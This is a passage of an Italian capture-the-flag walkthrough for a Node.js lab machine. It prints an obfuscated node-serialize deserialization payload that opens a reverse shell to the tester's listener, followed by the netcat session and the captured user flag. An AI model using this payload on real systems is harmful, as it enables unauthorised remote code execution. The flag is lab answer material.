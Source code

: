 ```
_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,52,46,57,57,46,49,51,52,34,59,10,80,79,82,84,61,34,52,52,52,52,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()
```
Ci mettiamo in ascolto
```
nc -lnvp 4444
```
Copiamo il tutto nell'indirizzo mail inviamo ed otteniamo la reverse shell!
```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.207.241] 50860
Connected!
ls
index.html
node_modules
package.json
package-lock.json
server.js
```

Il flag dell'utente è su `/home/dylan/user.txt`

```
cat /home/dylan/user.txt
```

```
cat /home/dylan/user.txt
0ba48780dee9f5677a4461f588af217c
```
user.txt
```
0ba48780dee9f5677a4461f588af217c
```
